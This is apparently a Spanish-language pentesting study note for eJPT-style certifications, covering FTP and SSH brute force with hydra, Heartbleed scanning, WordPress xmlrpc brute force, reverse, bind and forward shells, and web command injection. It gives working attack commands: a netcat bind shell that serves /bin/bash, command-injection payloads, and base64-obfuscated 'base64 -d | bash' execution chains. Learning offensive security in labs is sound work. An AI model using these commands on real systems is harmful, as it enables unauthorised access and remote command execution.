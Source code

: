 ## Explotación
### Indice
- [FTP](#exftp)
- [SSH](#exssh)
- [HTTP SSL](#exssl)
- [Wordpress](#exwp)
- [Reverse Shell](#shell)
- [Inyeccion comandos](#inyeccion_comandos)
 <a name="exftp"></a>
### FTP
 
Dockers de pruebas
```
1. https://github.com/garethflowers/docker-ftp-server
2. https://github.com/metabrainz/docker-anon-ftp
```

Fuerza bruta: ``` hydra -l user -P passwords.txt ftp://172.17.0.2```

 * Con -l le especificamos un usuario, con -L le especificamos un diccionario de usuarios. igual para la contraseña
 
Si aparece la version, se podría mirar algun exploit.
 
<a name="exssh"></a>
 ### SSH
 
Docker de pruebas ```https://hub.docker.com/r/linuxserver/openssh-server ```
Fuerza bruta: ``` hydra -l user -P passwords.txt ssh://172.17.0.2 -s 2222```

 <a name="exssl"></a>
## HTTPS SSL

 Docker de pruebas
 ```https://github.com/vulhub/vulhub/tree/master/openssl/CVE-2014-0160```
  
 Ver vulnerabilidades en certificados SSL:
 ```sslscan google.com:443```  
 algunas maquinas son vulnerables a Heartbleed, lo que consigue hacer un dump de la memoria en la que podemos llegar a encontrar claves privadas, nombres de usuario, contraseñas...

<a name="exwp"></a>
 ## Wordpress
 
Credenciales por fuerza bruta abusando de xmlrpc
 ```
 wpscan --url <ip> -U <usuario encontrado> -P /ruta/al/rockyou.txt
 ```
 
Credenciales por fuerza bruta abusando de xmlrpc
 ```
 wpscan --url <ip> -U <usuario encontrado> -P /ruta/al/rockyou.txt
 ```

 ## Reverse, Bind, Forward Shells
 
 Suponiendo que conseguimos realizar ejecución remota de comandos, podriamos tratar de enviarnos una shell interactiva desde la cual movernos por el sistema atacado. Tenemos 3 tipos:
 <a name="shell"></a>
 ### Reverse shell
 La víctima nos envía una shell interactiva a nosotros, que estremos a la escucha con netcat. En [Pentestmonkey](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) tenemos diferentes maneras de ejecutar la shell remota según los recursos que dispongamos. Solamente deberíamos estar a la escucha con netcat de la siguiente manera:
 ```
 nc -nlvp 443
 ```
 ### Bind shell
 La conexión es igual que la anterior solo que de manera inversa. en este caso el atacante es el que está a la escucha pero ofreciendo una bash, para ello:
 ```
 Victima: nc -nlvp 443 -e /bin/bash
 Atacante: nc <ip> <puerto>
 ```
 
 ### Forward Shell
 Es una manera de evitar las restricciones que pudieramos tener a la hora de establecer una conexión, por ejemplo si a través de fiewall nos capasen los puertos. La consola no es 100% interactiva pero se puede simular.
 
 Para ello necesitamos poder subir archivos, y subiriamos el php reverse shell de pentestmonkey. y nos descargamos el siguiente ejecutable: [TTYoverHTTP](https://raw.githubusercontent.com/s4vitar/ttyoverhttp/master/tty_over_http.py) 
 la manera de proceder es la siguiente:
 ```
 1. subir el fichero cmd.php (o como le queramos llamar)
 2. Editar si fuera necesario el ttyoverhttp, con la ruta y el nombre del fichero para decirle donde se ubica el php reverse shell
 3. Ejecutar tty_over_http.py
 ```


 <a name="inyeccion_comandos"></a>
### Inyección de comandos WEB  

hay varias maneras de inyectar comandos, por ejemplo en burpsuite. Si identificamos un campo, lugar donde creemos que se pueda inyectar comandos, aquí se listan varias opciones para hacerlo.  
```
$(comando)
;comando
;comando;
;comando;#

No todos los comandos funcionan, probar con: id, whoami, ps, ls ...
```

Si no nos permite espacios:  
```
Cambiamos el espacio por ${IFS} ejemplo:
echo${IFS}hola${IFS}mundo
```

Conversión a base64 (para evitar el error con caracteres no permitidos, como el &)
```
# Bash B64 Ofuscated
{echo,COMMAND_BASE64}|{base64,-d}|bash 
echo${IFS}COMMAND_BASE64|base64${IFS}-d|bash
bash -c {echo,COMMAND_BASE64}|{base64,-d}|{bash,-i} 
echo COMMAND_BASE64 | base64 -d | bash 
```
<a href="https://github.com/glmbxecurity/eJPT2_eCCPT2_eWPT_Notes/tree/main"> Menú Principal</a>
